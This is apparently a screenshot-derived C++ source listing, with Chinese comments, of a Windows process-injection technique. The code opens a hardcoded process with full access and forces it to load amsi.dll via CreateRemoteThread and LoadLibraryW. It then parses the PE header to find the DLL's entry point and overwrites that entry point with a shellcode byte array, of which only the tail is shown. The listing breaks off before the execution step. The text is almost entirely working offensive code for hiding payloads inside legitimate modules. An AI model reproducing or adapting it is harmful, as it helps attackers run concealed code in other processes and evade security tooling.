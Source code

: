 ```cpp
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba";

int main(int argc, char* argv[])
{
    TCHAR ModuleName[] = L"C:\\windows\\system32\\amsi.dll"; //定义要注入的合法DLL的文件路径
    HMODULE hModules[256] = {};  //定义一个数组用于存储目标进程中加载的模块的句柄
    SIZE_T hModulesSize = sizeof(hModules); //计算存储模块句柄数组的大小
    DWORD hModulesSizeNeeded = 0;  //用于存储EnumProcessModules函数返回的实际需要的缓冲区大小

    DWORD moduleNameSize = 0;  //定义变量用于存储模块名称的大小（未使用）
    SIZE_T hModulesCount = 0;  //计算目标进程中模块的数量
    CHAR rModuleName[128] = {};  //定义一个字符数组用于存储远程模块的名称
    HMODULE rModule = NULL;  //定义一个变量用于存储找到的远程模块的句柄
    
    // 以可读写权限打开目标进程
    //hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 31652);

    // 在远程进程中分配内存并写入待注入DLL的路径
    LPVOID lprBuffer = VirtualAllocEx(hProcess, NULL, sizeof ModuleName, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(hProcess, lprBuffer, (LPVOID)ModuleName, sizeof ModuleName, NULL);

    // 获取LoadLibraryW函数的地址，用于在远程进程中加载DLL
    PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");

    // 创建远程线程以加载DLL
    HANDLE dllThread = CreateRemoteThread(hProcess, NULL, 0, threadRoutine, lprBuffer, 0, NULL);

    // 等待远程线程加载完DLL
    WaitForSingleObject(dllThread, 1000);

    // 找到在远程进程中注入的DLL的基地址
    EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);
    hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
    for (size_t i = 0; i < hModulesCount; i++)
    {
        rModule = hModules[i];
        GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
        if (std::string(rModuleName).compare("amsi.dll") == 0)
        {
            break;
        }
    }

    // 获取DLL的AddressOfEntryPoint
    DWORD headerBufferSize = 0x1000;
    LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
    ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
    PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
    LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);

    // 将Shellcode写入DLL的AddressOfEntryPoint
    WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

    // 从注入的DLL中执行Shellcode
```
